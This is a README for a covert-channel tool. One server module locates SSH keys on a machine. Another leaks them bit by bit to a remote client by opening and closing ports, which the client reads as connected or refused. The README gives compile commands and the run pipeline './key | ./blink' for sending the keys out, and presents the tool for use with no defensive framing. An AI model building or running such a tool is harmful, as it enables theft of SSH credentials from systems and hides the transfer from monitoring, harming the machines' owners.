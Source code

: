 # Covert Channel:  
---  
The basic idea is that the server will listen/close ports to transmit data to a client.   
  
The client will attempt to connect to the ports:  
  if the connection is successful then 1 has been transmitted,  
  else **ECONNREFUSED**, then 0 has been transmitted.  

The Server and the Client have been implemented in two modules each.  

## Server:  
First compile, `simple_keyconv.cpp` using: `g++ -std=c++11 simple_keyconv.cpp -o key`.  
This module will find `SSH` keys and print them to `stdout`.  

Then, compile `blink.cpp` using: `g++ -pthread -std=c++11 blink.cpp -o blink`.  
This module will actually transmit the `SSH` key.  

## Client:  
First, compile `bin2key.cpp` using: `g++ -std=c++11 bin2key.cpp -o bin2key`.  
This module will convert key from binary and print it out.  

The client, will also need `client.py`.  
This module is responsible for connecting to ports and interpreting the result.   
Please, change the `IP` global variable to match that of the server.  

## Run:  
After compiling, run the following commands:   

Server:  
`./key | ./blink`  

Client:   
`python client.py   && cat bin_file.txt | ./bin2key`  
